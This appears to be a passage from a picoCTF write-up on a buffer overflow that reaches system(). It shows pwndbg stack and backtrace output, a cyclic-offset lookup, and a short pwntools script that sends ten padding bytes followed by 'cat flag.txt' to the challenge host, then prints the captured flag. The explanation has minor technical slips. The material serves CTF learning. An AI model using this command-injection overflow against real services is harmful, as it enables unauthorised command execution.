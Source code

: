 ```asm
04:0020│-018         0x7fffffffd878 ◂— 0x61616161ffffda88
05:0028│ rax-6 rdi-6 0x7fffffffd880 ◂— 'aaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa'
06:0030│-008         0x7fffffffd888 ◂— 'aaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa'
07:0038│ rbp         0x7fffffffd890 ◂— 'aaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa'
───────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0   0x7ffff7dfe110 system
   1         0x4012e3 fun+109
   2 0x6161616561616161 None
   3 0x6161616661616161 None
   4 0x6161616761616161 None
   5 0x6161616861616161 None
   6 0x6161616961616161 None
   7 0x6161616a61616161 None
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/gx $rdi
0x7fffffffd886: 0x6163616161616161
pwndbg> cyclic -l 0x6163616161616161
Finding cyclic pattern of 8 bytes: b'aaaaaaca' (hex: 0x6161616161616361)
Found at offset 10
pwndbg>
```

Well, you can see that the program has printed our input buffer and its execution stops in the system and gives the next address to be executed by the system.

At the bottom xgx $rdi reads 8 bytes (a dword) from the address stored in rdi. The value 0x61636161616161 is the hex representation of the cyclic pattern portion, and cyclic -l <hex> converts the 8-byte pattern back to a positional offset in the cyclic input. A result of 10 represents the first 10 bytes of the input up to this portion.

Next, let's exploit it by inserting our command, here is the script

```python
from pwn import remote

HOST="saffron-estate.picoctf.net"
PORT=54339

r = remote(HOST, PORT)
r.recvuntil(b"\n", timeout=1)
r.sendline(b"A"*10 + b"cat flag.txt")
print(r.recvall(timeout=5).decode(errors="ignore"))
r.close()

```

and we successfully did the buffer and got the flag

```bash
 zsh > python3 exploit.py
[+] Opening connection to saffron-estate.picoctf.net on port 54339: Done
[+] Receiving all data: Done (67B)
[*] Closed connection to saffron-estate.picoctf.net port 54339
Goodbye, AAAAAAAAAAcat flag.txt!
picoCTF{0v3rfl0w_c0mm4nd_3766e70a}
```

---

# FLAG: picoCTF{0v3rfl0w_c0mm4nd_3766e70a}
